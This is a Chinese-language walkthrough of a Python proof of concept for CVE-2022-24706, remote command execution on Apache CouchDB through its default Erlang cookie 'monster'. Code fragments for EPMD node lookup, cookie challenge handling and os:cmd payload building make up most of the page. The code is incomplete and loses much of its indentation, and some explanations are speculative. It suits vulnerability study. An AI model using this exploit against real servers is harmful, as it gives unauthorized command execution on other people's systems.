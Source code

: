 # 代码执行\_CouchDB_CVE-2022-24706

- [知识星球](https://wx.zsxq.com/dweb2/index/search/CVE-2022-24706)
- [CVE-2022-24706 Apache couchdb 默认 erlang-cookie 的 RCE 漏洞分析](https://zgao.top/cve-2022-24706-apache-couchdb-%E9%BB%98%E8%AE%A4erlang-cookie%E7%9A%84rce%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)
- [exploit-db](https://www.exploit-db.com/exploits/50914)
- [cxsecurity](https://cxsecurity.com/issue/WLB-2022110003)
- [CNNVD](https://www.cnnvd.org.cn/home/globalSearch?keyword=CVE-2022-24706)

```python
python poc2.py 192.168.1.215 4369
```

当阅读并理解这段代码时，我们可以逐行分析它的各个部分：

```python
import socket
from hashlib import md5
import struct
import sys
import re
import time

TARGET = sys.argv[1]
EPMD_PORT = int(sys.argv[2]) # Default Erlang distributed port
COOKIE = "monster" # Default Erlang cookie for CouchDB
ERLNAG_PORT = 0
EPM_NAME_CMD = b"\x00\x01\x6e" # Request for nodes list
```

这部分是引入所需的库和模块，以及设置一些常量和变量。例如，TARGET 是目标主机的 IP 地址或域名，EPMD_PORT 是 Erlang 分布式端口（默认为 4369），COOKIE 是用于身份验证的 Erlang Cookie，EPM_NAME_CMD 是请求获取节点列表的命令。


```python
# Connect to EPMD:

try:
epm_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
epm_socket.connect((TARGET, EPMD_PORT))
except socket.error as msg:
print("Couldnt connect to EPMD: %s\n terminating program" % msg)
sys.exit(1)

epm_socket.send(EPM_NAME_CMD) # request Erlang nodes
if epm_socket.recv(4) == b"\x00\x00\x11\x11": # OK
data = epm_socket.recv(1024)
data = data[0 : len(data) - 1].decode("ascii")
data = data.split("\n")
if len(data) == 1:
choise = 1
print("Found " + data[0])
else:
print("\nMore than one node found, choose which one to use:")
line_number = 0
for line in data:
line_number += 1
print(" %d) %s" % (line_number, line))
choise = int(input("\n> "))

    ERLNAG_PORT = int(re.search("\d+$", data[choise - 1])[0])

else:
print("Node list request error, exiting")
sys.exit(1)
epm_socket.close()
```

这部分代码尝试连接到 EPMD（Erlang Port Mapper Daemon），然后发送获取节点列表的命令。如果连接成功，它会接收和解析服务器的响应以获得节点列表。然后，它会要求用户选择一个节点以连接。最后，它会关闭与 EPMD 的连接。


```python
# Connect to Erlang port:

try:
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((TARGET, ERLNAG_PORT))
except socket.error as msg:
print("Couldnt connect to Erlang server: %s\n terminating program" % msg)
sys.exit(1)

s.send(NAME_MSG)
s.recv(5)
challenge = s.recv(1024) # Receive "challenge" message
print(challenge)
challenge = struct.unpack(">I", challenge[9:13])[0]
```

这部分代码与所选的 Erlang 节点建立连接，并发送名称消息以获取服务器返回的挑战数据。

```python
CHALLENGE_REPLY = b"\x00\x15r\x01\x02\x03\x04"

# ...

CHALLENGE_REPLY += md5(bytes(COOKIE, "ascii") + bytes(str(challenge), "ascii")).digest()
s.send(CHALLENGE_REPLY)
CHALLENGE_RESPONSE = s.recv(1024)
```

这部分代码构造响应消息，将鉴权 Cookie 和挑战的哈希值发送回服务器。服务器将根据该信息验证客户端身份。

```python
data_size = 0
while True:
if data_size <= 0:
CMD = input("> ")
if not CMD:
continue
elif CMD == "exit":
sys.exit(0)
s.send(compile_cmd(CMD))
data_size = struct.unpack(">I", s.recv(4))[0] # Get data size
s.recv(45) # Control message
data_size -= 45 # Data size without control message
time.sleep(0.1)
elif data_size < 1024:
data = s.recv(data_size)
time.sleep(0.1)
print(data[3:].decode())
data_size = 0
else:
data = s.recv(1024)
time.sleep(0.1)
print(data[4:].decode())
data_size -= 1024
```

最后，这部分代码包含一个循环，允许用户输入命令以远程执行。如果命令为空或为 "exit"，程序将退出。否则，它将使用 compile_cmd 函数编码命令，并发送给目标主机。接收到的数据将根据其大小分批处理和打印。

总之，这段代码利用 Erlang Distribution Protocol 漏洞，通过与一个运行 Erlang 节点的目标主机进行通信，实现远程执行命令的能力。它包括与 EPMD 和 Erlang 节点的连接、发送和接收数据以及命令执行等步骤。


---

```python
EPM_NAME_CMD = b"\x00\x01\x6e"  # Request for nodes list 
```

在 Erlang 语言中，节点之间的通信是通过 Erlang Distribution Protocol 进行的。Erlang Port Mapper Daemon（EPMD）是一个管理 Erlang 节点之间通信的进程，它会维护节点列表，并能够为连接到它的节点提供其他节点的信息。

在 Erlang Distribution Protocol 中，用于获取节点列表的请求命令的格式是一个字节序列，而 EPM_NAME_CMD 就是这个请求命令。这个命令的构成是：

b"\x00\x01"：这是一个 2 字节的命令标识，表示请求获取节点列表。
b"\x6e"：这是一个字节，表示要获取的节点列表的类型。
通过将这个请求命令发送给 EPMD，可以请求它返回当前连接到 EPMD 的节点列表。在这个代码中，EPM_NAME_CMD 是用于请求获取节点列表的命令，程序会将这个命令发送给 EPMD，然后解析 EPMD 返回的节点列表，以便用户选择要与之通信的节点。

---

```python
def compile_cmd(CMD):
    MSG = b"\x83h\x02gw\x0eAAAAAA@AAAAAAA\x00\x00\x00\x03\x00\x00\x00"
    MSG += b"\x00\x00h\x05w\x04callw\x02osw\x03cmdl\x00\x00\x00\x01k"
    MSG += struct.pack(">H", len(CMD))
    MSG += bytes(CMD, "ascii")
    MSG += b"jw\x04user"
    PAYLOAD = b"\x70" + CTRL_DATA + MSG
    PAYLOAD = struct.pack("!I", len(PAYLOAD)) + PAYLOAD
    return PAYLOAD
```

这个函数 compile_cmd(CMD) 的作用是构建用于远程执行命令的 Payload（有效负载）。


```python
def compile_cmd(CMD):
    MSG = b"\x83h\x02gw\x0eAAAAAA@AAAAAAA\x00\x00\x00\x03\x00\x00\x00"
    MSG += b"\x00\x00h\x05w\x04callw\x02osw\x03cmdl\x00\x00\x00\x01k"
```

这一部分定义了一个字节序列 MSG，看起来像是一些二进制指令。这些指令构成了一个 Erlang 的消息，用于与远程 Erlang 节点通信。

```python
    MSG += struct.pack(">H", len(CMD))
```

这一行将要执行的命令的长度转换成一个二进制数据，并将它添加到 MSG 中。这是为了告诉远程 Erlang 节点要执行的命令的长度。

```python
    MSG += bytes(CMD, "ascii")
```
这一行将要执行的命令（CMD 参数）转换成一个字节序列，并将它添加到 MSG 中。这是要执行的真正的命令内容。

```python
    MSG += b"jw\x04user"
```

这一行添加了一些后续的字节，看起来是消息的结束标志。

```python
    PAYLOAD = b"\x70" + CTRL_DATA + MSG
    PAYLOAD = struct.pack("!I", len(PAYLOAD)) + PAYLOAD
```

这一部分将之前构建的 MSG 添加到了另一个字节序列 PAYLOAD 中，前面添加了一个标识字节 \x70 和之前定义的 CTRL_DATA。然后，PAYLOAD 的长度被转换成一个二进制数据，添加到 PAYLOAD 的前面，用来告诉远程节点整个负载的长度。

```python
    return PAYLOAD
```

最后，函数返回构建好的负载，这个负载包含了要执行的命令和其他一些信息，可以通过网络发送给远程 Erlang 节点，用于触发远程命令的执行。

---

在代码中的 AAAAAA@AAAAAAA 实际上是一个占位符，这个占位符的作用是预留位置来填充其他数据。这种占位符在许多编程场景中都会使用，用于在代码中暂时放置数据的位置，稍后再用真实的数据来替换它们。在这个特定的代码中，AAAAAA@AAAAAAA 很可能是一个预留的标记，用于将来可能添加的一些具体数据或标识信息。

---



